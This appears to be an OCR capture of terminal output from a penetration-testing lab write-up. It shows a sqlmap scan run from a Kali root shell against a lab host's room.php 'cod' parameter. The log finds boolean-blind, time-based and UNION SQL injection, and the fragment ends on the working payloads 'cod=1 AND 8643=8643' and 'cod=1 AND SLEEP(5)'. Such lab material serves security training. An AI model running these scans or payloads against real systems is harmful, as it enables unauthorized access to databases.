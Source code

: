     
    
    root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch
            ___
           __H__
     ___ ___["]_____ ___ ___  {1.3.4#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [.]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [15:03:25] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.5; en-US; rv:1.9.1b4) Gecko/20090423 Firefox/3.5b4 GTB5' from file '/usr/share/sqlmap/txt/user-agents.txt'
    [15:03:25] [INFO] testing connection to the target URL
    [15:03:25] [INFO] checking if the target is protected by some kind of WAF/IPS
    [15:03:25] [INFO] testing if the target URL content is stable
    [15:03:26] [INFO] target URL content is stable
    [15:03:26] [INFO] testing if GET parameter 'cod' is dynamic
    [15:03:26] [INFO] GET parameter 'cod' appears to be dynamic
    [15:03:26] [INFO] heuristic (basic) test shows that GET parameter 'cod' might be injectable
    [15:03:26] [INFO] testing for SQL injection on GET parameter 'cod'
    [15:03:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [15:03:27] [INFO] GET parameter 'cod' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="of")
    [15:03:28] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    ...[snip]...
    [15:03:40] [INFO] GET parameter 'cod' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
    [15:03:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
    [15:03:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
    [15:03:40] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
    [15:03:40] [INFO] target URL appears to have 7 columns in query
    [15:03:41] [INFO] GET parameter 'cod' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
    GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=1 AND 8643=8643
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: cod=1 AND SLEEP(5)
    